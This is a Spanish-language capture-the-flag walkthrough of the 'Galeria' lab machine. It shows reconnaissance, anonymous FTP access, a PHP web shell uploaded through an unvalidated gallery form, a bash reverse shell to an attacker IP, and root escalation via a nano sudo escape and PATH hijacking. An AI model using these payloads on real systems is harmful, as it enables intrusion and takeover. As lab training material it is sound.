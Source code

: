 - Tags: #Galeria
---
[Maquina Galeria](https://mega.nz/file/SYdiyT4Y#54dLD-sGCP6OAYQBy4zWA2XpGfUURg51mIO-fpLTi_g) --> Fuzzing web sencillo y vulnerabilidad file upload.

```bash
7z x galeria.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh galeria.tar # Desplegamos el laboratorio.
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion ip del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # 
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo.
nmap -sC -sV -p21,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y la versiones que corren detras de estos puertos
```

**( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** --> Tenemos un servicio web expuesto: **( ubuntuNoble )**
### FAse Enumeracion FTP:

```bash
nmap -sCV --script ftp-anon.nse -p 21 172.17.0.2 # Tenemos habilidato: --> ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

```bash
ftp 172.17.0.2 # Procedemos a conectarnos
Name (172.17.0.2:kali): anonymous --> Enter
```

### Fase Enumeracion Web:
**( 21/tcp open  ftp     vsftpd 3.0.5 )** --> Tenemos un servicio **FTP** expuesto
```bash
/index.html           (Status: 200) [Size: 1772]
/gallery              (Status: 301) [Size: 310] [--> http://172.17.0.2/gallery/]
```

**( http://172.17.0.2/gallery/uploads/handler.php )** -->  Aqui tenemos capacidad de subir imagenes y verificamos que no valida la subidad de archivos.
**( 172.17.0.2/gallery/uploads/images/ )** -> Aqui se cargan las imagenes, y Aprovecharemos para subir una con codigo incrustado para poder controlar un comando a nivel de sistema atraves del metodo **GET**

El archivo que subiremos se llamara: **( cmd.php )** el cual controlaremos el comando que queremos ejecutar con: **( cmd )**
```php
<?php
	system($_GET["cmd"]);
?>
```

**( 172.17.0.2/gallery/uploads/images/cmd.php?cmd=whoami )** --> Ahora tenemos capacida ejecutacion remota de comandos
### Fase Instrusion:
```bash
nc -nlvp 443

172.17.0.2/gallery/uploads/images/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.100.24/443 <%261'
```

### Fase Escalda Privilegios:
```bash
sudo -l

User www-data may run the following commands on 522bce15769a:
    (gallery) NOPASSWD: /bin/nano
    (www-data) NOPASSWD: /bin/nano
```

```bash
sudo -u gallery /bin/nano #ejecutamos este binario como este usuario para poder pivotear a el

ctrl + R ctrl + X
reset; sh 1>&0 2>&0
```

```bash
sudo -l # Ahora hemos pivoteado como usuario: ( gallery )

User gallery may run the following commands on 522bce15769a:
    (ALL) NOPASSWD: /usr/local/bin/runme # Tenemos una via potencial de elevar privielgios
```

**Nota** --> Analizando el binario probablemente contempla convertir imagenes usando **convert** 
- `system`
- `puts`
- `/var/www/html/gallery/uploads/images/input.png`
- `convert`
- `output.jpg`

###### Explotar el uso de `system()`
El uso de `system()` en binarios con privilegios elevados es critico, Sii el binario ejecuta comandos con argumentos que el nosotros como atacantes controlamos. Permitiendonos inyectar comandos
Secuestraemos el binario si **PATH** no esta controlado, Pensando que el binario ejecuta el comando sin ruta contemplada, Crearemos un ejecutable llamado **Convert** en nuestro directorio personal que es controlado por nosostros como atacante, Logrando secuestar el **path**

```bash
echo -e '#!/bin/bash\nbash' > ~/convert # Este es el contenido de nuestro binario malicioso
chmod +x ~/convert # Damos permisos de ejecucion
export PATH=~/:$PATH # Cambiamos el valor del PATH
sudo /usr/local/bin/runme # Ejecutamos el binario como root
```

```bash
whoami # Ahora tenemos una bash como root.
```